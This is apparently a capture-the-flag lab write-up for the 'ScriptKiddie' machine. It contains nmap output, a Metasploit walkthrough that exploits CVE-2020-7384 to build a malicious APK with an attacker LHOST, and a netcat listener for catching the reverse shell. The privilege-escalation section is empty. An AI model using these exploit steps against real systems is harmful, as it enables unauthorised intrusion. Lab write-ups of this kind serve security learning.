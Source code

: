 ## Machine: ScriptKiddie
- Date: 2021.05.02
- Author: jak010

### Setup
- ExportIP: 10.10.10.226


### Nmap Scan
```text
# Nmap 7.91 scan initiated Sun May  2 15:52:33 2021 as: nmap -sC -sV -oA nmap/initial 10.10.10.226
Nmap scan report for 10.10.10.226
Host is up (0.21s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)
|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)
|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-server-header: Werkzeug/0.16.1 Python/3.8.5
|_http-title: k1d'5 h4ck3r t00l5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun May  2 15:52:51 2021 -- 1 IP address (1 host up) scanned in 17.95 seconds
```

### Interesting
- 사용자가 입력한 값을 결과로 보여주고 있음
- `Payloads`를 입력받는 곳에서 플랫폼을 선택할 수 있음
	- windows
	- linux
	- android

### Malicious Payload
- `exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection`
	- Refer to
		- `https://nvd.nist.gov/vuln/detail/CVE-2020-7384`
		- `https://www.rapid7.com/db/modules/exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection/`

### Exploit && Ganing Shell
- Payload Generate
    ```sh
    msf6 > search apk_template
    msf6 > use 0
    msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > set LHOST 10.10.14.58
    msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > exploit
    [+] msf.apk stored at /Users/jak/.msf4/local/msf.apk
    ```
- Reverse Shell
	- OS X
        ```sh
        $ nc -nvl 4444
        ``` 
        
### Priviliege Escalate

